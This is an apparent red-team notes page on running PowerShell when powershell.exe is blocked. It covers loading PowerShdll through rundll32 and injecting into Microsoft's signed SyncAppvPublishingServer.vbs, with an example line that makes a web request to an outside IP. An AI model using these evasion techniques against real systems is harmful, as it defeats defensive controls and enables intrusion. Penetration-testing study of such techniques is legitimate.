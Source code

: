 # Powershell Without Powershell.exe
`Powershell.exe` is just a process hosting the `System.Management.Automation.dll` which essentially is the actual Powershell as we know it.

If you run into a situation where `powershell.exe` is **blocked** and no strict application whitelisting is implemented, there are ways to execute powershell still.

### PowerShdll

* [PowerShdll](https://github.com/p3nt4/PowerShdll)
  
```cmd
rundll32.exe PowerShdll.dll,main
```

![pwshll-rundll32](https://github.com/Mehdi0x90/Red-Team/assets/17106836/cb3c623f-1eb5-44ea-9931-d6fdadbb0e3e)

> Note that the same could be achieved with a compiled `.exe` binary from the same project, but keep in mind that `.exe` is more likely to run into whitelisting issues.

### SyncAppvPublishingServer
Windows 10 comes with `SyncAppvPublishingServer.exe` and `SyncAppvPublishingServer.vbs` that can be abused with code injection to execute powershell commands from a Microsoft signed script:

```cmd
SyncAppvPublishingServer.vbs "Break; iwr http://10.0.0.5:443"
```

![1](https://github.com/Mehdi0x90/Red-Team/assets/17106836/244b9897-44d2-4799-aa52-301b5c4bcc4e)

![2](https://github.com/Mehdi0x90/Red-Team/assets/17106836/ec008e9c-e047-4610-8477-696e617feb25)
























































































